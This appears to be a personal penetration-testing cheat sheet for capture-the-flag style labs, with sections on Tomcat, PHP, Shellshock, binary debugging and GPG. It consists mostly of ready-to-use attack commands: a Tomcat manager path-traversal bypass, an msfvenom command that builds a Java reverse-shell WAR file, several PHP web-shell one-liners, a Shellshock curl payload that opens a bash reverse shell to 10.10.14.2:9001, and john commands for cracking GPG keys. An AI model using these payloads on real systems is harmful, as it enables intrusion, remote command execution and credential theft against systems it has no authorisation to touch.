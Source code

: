 ```Java
}
```

## Apache

- Apache on 80 Tomcat on 8080
- encoding of .. = %252e%252e

### Tomcat 
[Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)
- access manager bypass `<ip>/whatever/..;/manager/html`
- `msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.14.2 LPORT=9001 -f war -o hyst.war`
- `/manager/html/expire?path=/` **_0xdf used this to test for log4j using Post and jndi payload as body_**


## One-Liners

- `<?php system($_REQUESTS['hyst']); ?>`
- `<?php system($_GET["cmd"]);?>`
- `<?php print exec('command'); ?>`
- `<?php echo file_get_contents('/home/carlos/secret'); ?>`

## ShellShock

- To detect `nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh`
- `() { :;}; echo; **_CMD_**` CMD SHOULD BE ABSOLUTE PATH `/usr/bin/whoami`
- Echo is used to add a blank space between headers and body output
- Try in User-Agent or Cookie
- `curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"' http://10.10.10.56/cgi-bin/user.sh`

## C app / binaries

- Use gdb / strace
- crash the app then have a look at `/var/crashes` use `apport-unpack`
- [Node Ippsec](https://www.youtube.com/watch?v=sW10TlZF62w)
- `gdb ./binary`
  - `layout asm`
  - create a breakpoint `break *(main+103)`
  - `run`
  - jump to what ever `jump *(main+109)`

## GPG/PGP/ASC

- `gpg2john test.asc > hash`
- `john --format=gpg hash --wordlist=rockyou.txt`
- `gpg --import <file.asc>`
- `gpg -d <creds.gpg>`
